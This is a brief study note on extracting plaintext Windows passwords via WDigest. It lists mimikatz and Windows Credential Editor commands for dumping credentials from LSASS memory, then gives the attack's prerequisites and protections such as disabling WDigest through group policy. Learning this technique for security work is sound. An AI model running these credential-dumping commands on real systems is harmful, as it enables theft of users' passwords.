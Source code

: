 
Extract WDigest plain text password

mimikatz 
privilege::debug 
sekurlsa::wdigest

Windows Credential Editor tool 
wce.exe -w

How Digest Authentication Works
![[Pasted image 20231013154028.png]]

Attack’s pre-requisites - WDigest is enabled - A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump

Protection - Disable WDigest - Enforce it through group policies